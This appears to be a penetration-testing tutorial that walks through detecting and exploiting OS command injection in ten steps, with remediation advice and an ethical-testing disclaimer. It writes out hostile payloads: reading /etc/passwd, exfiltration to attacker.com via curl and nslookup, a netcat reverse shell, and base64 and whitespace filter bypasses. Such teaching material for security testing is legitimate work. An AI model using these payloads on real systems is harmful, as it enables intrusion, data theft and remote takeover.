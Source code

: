 # Command Injections

[Relative Cheat Sheet](./cmd-injection-cheat.md)

## Step-by-Step Guide for Testing and Exploiting Command Injection Vulnerabilities

### 1. Understand Command Injection
   - **Explanation**: Command injection allows attackers to execute arbitrary OS commands via unsanitized user input concatenated into shell commands. This can lead to remote code execution (RCE), data exfiltration, or system compromise. It typically occurs in features like ping tools, file downloads, or system utilities where user input is passed to the shell.
   - **Why It's Done**: Understanding the vulnerability helps identify where commands might be executed, guiding targeted testing. It’s critical to know the OS (Linux/Windows) as commands differ.
   - **Example**: An app running `ping input` can be exploited with `input & whoami` to execute an additional command.

### 2. Identify Entry Points
   - **Explanation**: Find inputs that may feed into system commands, such as form fields (e.g., ping input), URL parameters, or API endpoints. Use a proxy like Burp Suite to map these inputs.
   - **Why It's Done**: These are potential injection points; mapping ensures no vulnerable endpoints are missed.
   - **Example**: A form field for entering an IP address to ping, like `ping <user_input>`.

### 3. Test with Basic Payloads
   - **Explanation**: Inject shell metacharacters (`;`, `|`, `&`, `||`, `$()`, etc.) followed by simple commands like `id` or `whoami`. Observe if the command’s output appears in the response.
   - **Why It's Done**: Confirms if the application executes user input as part of a shell command, indicating a vulnerability.
   - **Example**: Input `127.0.0.1; id` in a ping form to see if `uid=1000(user)` appears.

### 4. Detect Blind Injection
   - **Explanation**: If no output is returned, test for blind injection using time delays (e.g., `ping -c 10 127.0.0.1`) or out-of-band (OAST) techniques like DNS lookups (`nslookup attacker.com`).
   - **Why It's Done**: Blind injections don’t show output but can be confirmed via side effects like delays or external interactions.
   - **Example**: `127.0.0.1 & ping -c 10 127.0.0.1` causes a noticeable delay.

### 5. Bypass Filters and Blacklists
   - **Explanation**: If basic payloads fail, bypass filters using alternative syntax: `${IFS}` for spaces, case manipulation (`WhOaMi`), reversed commands (`rev<<<imaohw`), or encoded payloads (base64).
   - **Why It's Done**: Applications often filter common characters or commands; creative bypasses exploit weaknesses.
   - **Example**: Use `${IFS}` instead of space: `cat${IFS}/etc/passwd`.

### 6. Exfiltrate Data Blindly
   - **Explanation**: Use OAST to send command output via DNS or HTTP (e.g., `nslookup \`whoami\`.attacker.com`).
   - **Why It's Done**: Extracts data when direct output isn’t visible, increasing exploitability.
   - **Example**: `curl http://attacker.com/?data=`whoami`` sends the username to your server.

### 7. Escalate to Remote Code Execution
   - **Explanation**: Inject a reverse shell payload to gain interactive access (e.g., `nc -e /bin/sh attacker_ip port` on Linux or PowerShell equivalent on Windows).
   - **Why It's Done**: Turns injection into full system control, maximizing impact.
   - **Example**: `& nc -e /bin/sh 192.168.1.100 9001` connects back to your listener.

### 8. Test for Platform-Specific Bypasses
   - **Explanation**: Use Linux-specific (`$()` subshells, `${PATH:0:1}` for /) or Windows-specific (`^` for insertion, `%HOMEPATH:~0,-17%` for \).
   - **Why It's Done**: Commands and filters vary by OS; testing both ensures comprehensive coverage.
   - **Example**: Windows: `whoami^dir` to append dir command.

### 9. Use Evasion Tools
   - **Explanation**: Employ tools or scripts to automate obfuscation (e.g., custom base64 encoders or command generators).
   - **Why It's Done**: Simplifies bypassing complex filters or WAFs.
   - **Example**: Encode `whoami` in base64 and decode on target: `bash<<<$(base64 -d<<<d2hvYW1p)`.

### 10. Assess Prevention Measures
   - **Explanation**: Check if the application sanitizes input, uses safe APIs (e.g., `exec()` with escaped args), or restricts shell access.
   - **Why It's Done**: Informs remediation recommendations, like avoiding shell commands or whitelisting inputs.
   - **Example**: Secure apps use `exec(['ping', input])` instead of `system("ping $input")`.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, equips hunters to identify and exploit command injection vulnerabilities ethically. Always test within scope and report responsibly.